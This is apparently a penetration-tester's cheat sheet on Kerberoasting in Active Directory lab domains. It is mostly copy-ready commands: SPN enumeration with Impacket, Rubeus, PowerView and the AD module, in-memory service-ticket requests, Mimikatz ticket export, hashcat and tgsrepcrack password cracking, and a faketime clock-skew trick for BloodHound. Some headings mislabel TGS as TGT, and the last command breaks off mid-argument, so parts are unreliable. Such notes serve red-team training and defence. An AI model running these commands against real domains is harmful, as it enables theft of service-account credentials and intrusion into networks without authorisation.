 # Kerberoasting

The goal of **Kerberoasting** is to harvest **TGS tickets for services that run on behalf of user accounts** in the AD, not computer accounts. Thus, **part** of these TGS **tickets are** **encrypted** with **keys** derived from user passwords. As a consequence, their credentials could be **cracked offline**. You can know that a **user account** is being used as a **service** because the property **"ServicePrincipalName"** is **not null**.

#### Impacket Tools <a href="#impacket-tools" id="impacket-tools"></a>

```bash
impacket-GetUserSPNs evilcorp.local/aduser:Password#123 -usersfile usernames.txt -request
```

#### Rebeus <a href="#rebeus" id="rebeus"></a>

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

#### AD Module <a href="#a-d-module" id="a-d-module"></a>

```powershell
PS C:\Users\Administrator\Desktop> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName


DistinguishedName    : CN=krbtgt,CN=Users,DC=evilcorp,DC=local
Enabled              : False
GivenName            :
Name                 : krbtgt
ObjectClass          : user
ObjectGUID           : ac8d4198-2f46-4293-a4b3-99cb76de1645
SamAccountName       : krbtgt
ServicePrincipalName : {kadmin/changepw}
SID                  : S-1-5-21-3253464773-3242635457-2311576871-502
Surname              :
UserPrincipalName    :
```

#### PowerView.ps1 <a href="#powerview.ps1" id="powerview.ps1"></a>

```powershell
PS C:\Users\Administrator\Desktop> Get-NetUser -SPN | select serviceprincipalname


logoncount                    : 0
badpasswordtime               : 1/1/1601 5:30:00 AM
description                   : Key Distribution Center Service Account
distinguishedname             : CN=krbtgt,CN=Users,DC=evilcorp,DC=local
objectclass                   : {top, person, organizationalPerson, user}
name                          : krbtgt
primarygroupid                : 513
objectsid                     : S-1-5-21-3253464773-3242635457-2311576871-502
whenchanged                   : 7/23/2023 12:16:38 PM
admincount                    : 1
codepage                      : 0
samaccounttype                : 805306368
showinadvancedviewonly        : True
accountexpires                : 9223372036854775807
cn                            : krbtgt
*** 
```

#### Request a TGT In Memory: <a href="#request-a-tgt-in-memory" id="request-a-tgt-in-memory"></a>

```powershell
#Using Powershell:
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp mgmt.dollarcorp.moneycorp.local"

#Using PowerView.ps1:
Request-SPNTicket

#Check if the TGS has been granted:
klist


#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### Cracking TGT-Rep <a href="#cracking-tgt-rep" id="cracking-tgt-rep"></a>

```bash
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force


#Crack the Service account password using kerbroat modules:
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-
40a10000-student1@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.localDOLLARCORP.MONEYCORP.LOCAL.kirbi
```

### Clock-skew <a href="#clock-skew" id="clock-skew"></a>

```powershell
faketime "$(ntpdate -q dc1.ad.lab | cut -d ' ' -f 1,2)" bloodhound-python -c All -u joan.hesther -p
```
